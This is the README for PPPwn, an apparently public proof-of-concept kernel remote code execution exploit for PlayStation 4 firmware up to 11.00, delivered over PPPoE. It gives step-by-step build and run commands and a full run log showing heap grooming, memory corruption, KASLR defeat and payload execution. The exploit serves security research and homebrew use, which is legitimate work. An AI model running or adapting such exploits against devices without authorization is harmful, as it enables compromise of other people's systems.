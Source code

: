 # PPPwn - PlayStation 4 PPPoE RCE
PPPwn is a kernel remote code execution exploit for PlayStation 4 up to FW 11.00. This is a proof-of-concept exploit for [CVE-2006-4304](https://hackerone.com/reports/2177925) that was reported responsibly to PlayStation.

Supported versions are:
- FW 9.00
- FW 11.00
- more can be added (PRs are welcome)

The exploit only prints `PPPwned` on your PS4 as a proof-of-concept. To launch Mira or similar homebrew enablers, the `stage2.bin` payload needs to be adapted.

## Requirements
- Computer with Ethernet port
  - USB adapter also works
- Ethernet cable
- Linux
  - You can use VirtualBox to create a Linux VM with `Bridged Adapter` as a network adapter to use the ethernet port in the VM.
- Python3 and gcc installed

## Usage

On your computer, clone the repository:

```sh
git clone --recursive https://github.com/TheOfficialFloW/PPPwn
```

Install the requirements:

```sh
sudo pip install -r requirements.txt
```

Compile the payloads:

```sh
make -C stage1 FW=1100 clean && make -C stage1 FW=1100
make -C stage2 FW=1100 clean && make -C stage2 FW=1100
```

For other firmwares, e.g. FW 9.00, pass `FW=900`.

Run the exploit (see `ifconfig` for the correct interface):

```sh
sudo python3 pppwn.py --interface=enp0s3 --fw=1100
```

For other firmwares, e.g. FW 9.00, pass `--fw=900`.

On your PS4:

- Go to `Settings` and then `Network`
- Select `Set Up Internet connection` and choose `Use a LAN Cable`
- Choose `Custom` setup and choose `PPPoE` for `IP Address Settings`
- Enter anything for `PPPoE User ID` and `PPPoE Pasword`
- Choose `Automatic` for `DNS Settings` and `MTU Settings`
- Choose `Do Not Use` for `Proxy Server`
- Click `Test Internet Connection` to communicate with your computer

If the exploit fails or the PS4 crashes, you can skip the internet setup and simply click on `Test Internet Connection`. If the `pppwn.py` script is stuck waiting for a request/response, abort it and run it again on your computer, and then click on `Test Internet Connection` on your PS4.

If the exploit works, you should see an output similar to below, and you should see `Cannot connect to network.` followed by `PPPwned` printed on your PS4.

### Example run

```sh
[+] PPPwn - PlayStation 4 PPPoE RCE by theflow
[+] args: interface=enp0s3 fw=1100 stage1=stage1/stage1.bin stage2=stage2/stage2.bin

[+] STAGE 0: Initialization
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634beba00
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] Source MAC: 07:ba:be:34:d6:ab
[+] AC cookie length: 0x4e0
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...
[*] Waiting for interface to be ready...
[+] Target IPv6: fe80::2d9:d1ff:febc:83e4
[+] Heap grooming...done

[+] STAGE 1: Memory corruption
[+] Pinning to CPU 0...done
[*] Sending malicious LCP configure request...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...
[+] Scanning for corrupted object...found fe80::0fdf:4141:4141:4141

[+] STAGE 2: KASLR defeat
[*] Defeating KASLR...
[+] pppoe_softc_list: 0xffffffff884de578
[+] kaslr_offset: 0x3ffc000

[+] STAGE 3: Remote code execution
[*] Sending LCP terminate request...
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634beba00
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] Source MAC: 97:df:ea:86:ff:ff
[+] AC cookie length: 0x511
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Triggering code execution...
[*] Waiting for stage1 to resume...
[*] Sending PADT...
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634be9200
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] AC cookie length: 0x0
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...

[+] STAGE 4: Arbitrary payload execution
[*] Sending stage2 payload...
[+] Done!
```

## Notes for Mac Apple Silicon Users (arm64 / aarch64)
The code will not compile on Apple Silicon and requires amd64 architecture. 
There is a workaround using docker which will build the bin files required.
Clone this repository to your Mac system, then from the repo folder run `./build-macarm.sh`.This will build the binaries for PS4 FW 1100 and place the necessary files into the correct folders. To build the binaries for a different version, i.e. 900, run the command as such: `./build-macarm.sh 900`. Once built, copy this folder structure into the Linux VM and execute as instructed above. 
This has been tested using VMware Fusion 13.5.1, with the VM Guest as Ubuntu 24.04, and the host machine is MacOS 14.4.1
